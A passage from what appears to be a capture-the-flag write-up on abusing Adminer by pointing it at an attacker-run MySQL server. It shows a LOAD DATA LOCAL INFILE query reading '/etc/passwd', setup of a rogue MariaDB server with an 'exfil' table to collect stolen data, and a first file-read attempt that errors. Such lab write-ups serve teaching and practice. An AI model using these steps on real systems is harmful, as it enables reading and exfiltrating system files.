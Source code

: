     
    
    LOAD DATA LOCAL INFILE '/etc/passwd' 
    INTO TABLE test.test
    FIELDS TERMINATED BY "\n"
    

#### Configure MySQL

Getting my local MySQL server setup so that Adminer could connect to it was a
very similar process to what I did in [HTB: Kryptos](/2019/09/21/htb-
kryptos.html#auth-bypass). I won’t go into quite as much detail, but it was
very useful to use Wireshark to see more detailed messages as to why
connections were failing.

  * [This post](https://www.techrepublic.com/article/how-to-set-change-and-recover-a-mysql-root-password/) was useful for re-setting my root password on MySQL (would also help with setting it for the first time).

  * I remembered from last time I needed to change the bind IP from 127.0.0.1 to 10.10.14.47 in `/etc/mysql/mariadb.conf.d/50-server.cnf`.

  * When I saw `Host '10.10.10.187' is not allowed to connect to this MariaDB server` in the Wireshark traffic, [this article](https://confluence.atlassian.com/jirakb/configuring-database-connection-results-in-error-host-xxxxxxx-is-not-allowed-to-connect-to-this-mysql-server-358908249.html) showed how to fix it with:
    
        MariaDB [mysql]> GRANT ALL PRIVILEGES ON *.* TO root@10.10.10.187 IDENTIFIED by '0xdf' WITH GRANT OPTION;
    

  * I created a database, `pwn`, with a table `exfil`:
    
        MariaDB [(none)]> CREATE DATABASE pwn;
    Query OK, 1 row affected (0.003 sec)
    MariaDB [(none)]> use pwn
    Database changed
    MariaDB [pwn]> CREATE TABLE exfil (data VARCHAR(256));
    Query OK, 0 rows affected (0.008 sec)
    

#### Connect

Now I can log using the creds I set:

![image-20200504210219358](https://0xdfimages.gitlab.io/img/image-20200504210219358.png)

And I’m in:

![image-20200504210323918](https://0xdfimages.gitlab.io/img/image-20200504210323918.png)

#### File Read

I tried to read `/etc/password` and other files in `/etc`, but only got an
error:

![image-20200504210730692](https://0xdfimages.gitlab.io/img/image-20200504210730692.png)
